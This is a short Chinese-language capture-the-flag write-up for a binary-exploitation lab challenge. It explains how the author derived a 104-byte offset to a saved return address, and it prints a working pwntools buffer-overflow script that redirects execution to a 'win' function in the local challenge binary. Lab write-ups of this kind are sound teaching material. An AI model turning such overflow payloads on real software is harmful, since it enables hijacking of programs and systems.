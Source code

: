 # 挑战简介
没啥好说的，写了有10来天吧，hard难度，难的就在未知

# 思路
我们根据上一题的思路,我们可以得知,offset(偏移量)是未知的,但是经过这几天折磨,偏移量这个变量,我们很容易得到
**如下**
```
__int64 challenge()
{
  int *v0; // rax
  char *v1; // rax
  __int64 buf[10]; // [rsp+20h] [rbp-60h] BYREF
  __int16 v4; // [rsp+70h] [rbp-10h]
  int v5; // [rsp+74h] [rbp-Ch]
  size_t nbytes; // [rsp+78h] [rbp-8h]
```
我们对比上一题的定义格式,我们发现,有两项是隐藏的
就是此两项
```
  __int64 savedregs; 
  void *retaddr; 
```
所以你的offset不能是78h-20h=88如此简单,因为我们要覆盖的是函数的返回地址
而返回地址固定需要16的偏移量,因此最终的offset而是88+16=104
**答案如下**
```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-control-hijack-2')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x4015f5)    
payload = b'a' * 104 + win_authed_address
p.send(payload)
p.recvall()
```
**那个关键点真的找了很久,给个收藏?!**
